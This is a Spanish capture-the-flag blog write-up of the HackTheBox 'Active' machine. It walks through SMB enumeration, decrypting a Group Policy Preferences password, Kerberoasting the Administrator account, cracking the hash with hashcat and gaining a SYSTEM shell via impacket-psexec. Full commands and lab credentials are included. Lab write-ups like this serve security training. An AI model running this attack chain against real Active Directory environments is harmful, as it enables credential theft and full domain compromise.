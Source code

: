 
---
title: "Active"
summary: "Active es una máquina de dificultad fácil a media, que cuenta con dos técnicas muy comunes para obtener privilegios dentro de un entorno de Active Directory. Esta máquina nos enseña sobre las Preferencias de Directivas de Grupo (GPP) de Windows y contraseñas y cómo abusar de ellas."
categories: ["Post","Blog",]
tags: ["hackthebox machine"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-06

---

| Información de la máquina | |
| -------------------- | ------------ |
| **Plataforma** | HackTheBox |
| **Sistema operativo** | Windows |
| **Dificultad** | Fácil |
| **IP** | 10.10.10.100 |
- - -
## Enumeración

Comencemos la enumeración con `Nmap`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001 -sCV --min-rate 2000 -T5 -n -Pn 10.10.10.100 -oN ports

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-04 18:47:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-04T18:48:37
|_  start_date: 2025-01-04T18:21:40
|_clock-skew: -1s
```

Hay bastantes puertos abiertos. Podemos comenzar la enumeración comprobando si hay alguna información sobre los recursos compartidos **SMB**:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ smbclient -N -L \\10.10.10.100 

Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      

```

El recurso compartido _Replicación_ tiene información a la que podemos acceder:

```bash
smb: \> ls

  active.htb                          D        0  Sat Jul 21 00:37:44 2018
```

- - -
## Recopilación de credenciales
Descubrimos una contraseña en `Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml`.

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ cat Groups.xml 

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

El archivo **Groups.xml** se crea automáticamente en el recurso compartido `SYSVOL` cuando se crea una _Preferencia de directiva de grupo_. El archivo contiene información relacionada con los grupos, incluso contraseñas. Estas están cifradas con una clave privada de Microsoft, pero se publicó por accidente.

Esto es bastante antiguo (de alrededor de 2014), pero es un gran conocimiento, ya que si un sistema contiene archivos antiguos que contienen una contraseña cifrada a partir de una _Preferencia de directiva de grupo_, se puede descifrar con la herramienta `gpp-decrypt`.

```bash
┌──(s3n㉿kali)-[~]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

Después de encontrar la contraseña para el usuario _SVC_TGS_, deberíamos echar un vistazo a los recursos compartidos a los que no pudimos acceder, como **Usuarios**, para verificar si obtuvimos algún privilegio sobre ellos.

```bash
┌──(s3n㉿kali)-[~]
└─$ smbclient \\\\10.10.10.100\\Users -W active.htb -U SVC_TGS 
Password for [ACTIVE.HTB\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 04:39:20 2018
  ..                                 DR        0  Sat Jul 21 04:39:20 2018
  Administrator                       D        0  Mon Jul 16 00:14:21 2018
  All Users                       DHSrn        0  Mon Jul 13 19:06:44 2009
  Default                           DHR        0  Mon Jul 13 20:38:21 2009
  Default User                    DHSrn        0  Mon Jul 13 19:06:44 2009
  desktop.ini                       AHS      174  Mon Jul 13 18:57:55 2009
  Public                             DR        0  Mon Jul 13 18:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 05:16:32 2018
```

Parece que funcionó. Enumeramos nuevamente pero no encontramos nada relevante.

>Podríamos reclamar la bandera de usuario en el directorio SVC_TGS/Desktop pero no lo haré, ya que no contaría en exámenes como OSCP, ya que se necesita un shell interactivo.

Con el usuario _SVC_TGS_ parece que no tenemos una manera de obtener un punto de apoyo en la máquina mientras intentaba usar RDP. Sin embargo, podemos continuar enumerando la red interna ya que tenemos credenciales válidas con este usuario.
- - -
## Kerberoasting
**Kerberoasting** es una técnica de post-explotación que podemos utilizar al evaluar entornos de Active Directory (AD). El objetivo es obtener el hash de contraseña de una cuenta de servicio asociada con un _Service Principal Name_ (SPN). Los SPN son atributos en AD que vinculan de forma única un servicio a una cuenta de usuario, lo que permite la autenticación Kerberos.

En este escenario, como usuarios de dominio autenticados, solicitamos un ticket de servicio Kerberos para un SPN. El controlador de dominio genera el ticket y lo cifra utilizando el hash NTLM de la contraseña de la cuenta de servicio vinculada al SPN. Luego se nos proporciona este ticket. En esta etapa, no necesitamos privilegios elevados, solo una cuenta de usuario de dominio válida para solicitar el ticket.

Una vez que recuperamos el ticket cifrado, podemos descifrarlo sin conexión utilizando herramientas como `Hashcat`. Si tenemos éxito, recuperamos la contraseña de texto simple de la cuenta de servicio.

Podemos intentar verificar los SPN de los usuarios con la herramienta `GetUserSPN` de Impacket:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon/Users_Share]
└─$ sudo impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 09:06:40.351723  2025-01-04 08:22:56.876969             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8
```

¡Genial! Ya lo tenemos. Ahora podemos intentar descifrar este hash con `hashcat`:

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8:Ticketmaster1968
```

Encontramos la contraseña del administrador con el valor **Ticketmaster1968**. Podemos intentar abusar de SMB para establecer un shell con `psexec`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ impacket-psexec Administrator@10.10.10.100        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file zOdNJqkf.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service ROhE on 10.10.10.100.....
[*] Starting service ROhE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Ahora podemos leer ambas flags!:

```powershell
C:\> type C:\Users\SVC_TGS\Desktop\user.txt  
40538eb1a29a0cef0b8d9a4d7a3a387f
```

```powershell
C:\> type C:\Users\Administrator\Desktop\root.txt
b8737ca7bc28f8b9dcce856e5226956d
```



